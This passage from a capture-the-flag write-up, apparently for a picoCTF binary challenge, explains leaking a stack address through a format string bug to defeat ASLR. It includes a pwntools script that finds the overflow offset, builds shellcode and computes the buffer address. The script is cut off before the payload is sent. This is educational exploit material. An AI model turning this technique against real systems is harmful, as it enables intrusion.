 So what this means is that if we leak the sixth value from the stack using the format string vulnerability and subtract `0x168`, we should get the runtime address of our buffer. This techniques bypasses any ASLR protection since we're using a leaked runtime address to perform the calculation. 

Here's a script to automate the exploit:

```python
# First, generate a pwntools template using the following command:
#  pwn template --host mercury.picoctf.net --port 65046 ./gauntlet

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX disabled
# PIE:      No PIE (0x400000)
# RWX:      Has RWX segments

io = start()

def get_overflow_offset():
    # It's problematic to create a core dump on an NTFS file system,
    # so reconfigure core dumps to be created elsewhere
    with open("/proc/sys/kernel/core_pattern") as f:
        core_pattern = f.read()
        if core_pattern.strip() == "core":
            from pathlib import Path
            raise Exception("Please run the following command first:\n"
                            "mkdir -p {0} && "
                            "sudo bash -c 'echo {0}/core_dump > /proc/sys/kernel/core_pattern'"
                            .format(Path.home() / "core"))
    #os.system("echo ~/core/core_dump > /proc/sys/kernel/core_pattern")
    os.system("rm core.* > /dev/null")
    proc = process(exe.path)
    payload = cyclic(150, n = exe.bytes)
    proc.sendline("dummy")
    proc.sendline(payload)
    proc.wait()
    offset = cyclic_find(proc.corefile.fault_addr, n = exe.bytes )
    log.info("Overflow offset: {}".format(offset))
    return offset


overflow_offset = get_overflow_offset()

io = start()

shellcode = shellcraft.sh()
log.info("Shellcode:\n{}".format(shellcode))

io.sendline("%6$p")

if args.LOCAL:
    delta = 0x168
else:
    delta = 0x158

leaked_address = int(io.recvlineS(), 16)
log.info(f"Leaked address: {hex(leaked_address)}")

buffer_address = leaked_address - delta
log.info(f"Local Buffer address: {hex(buffer_address)}")

```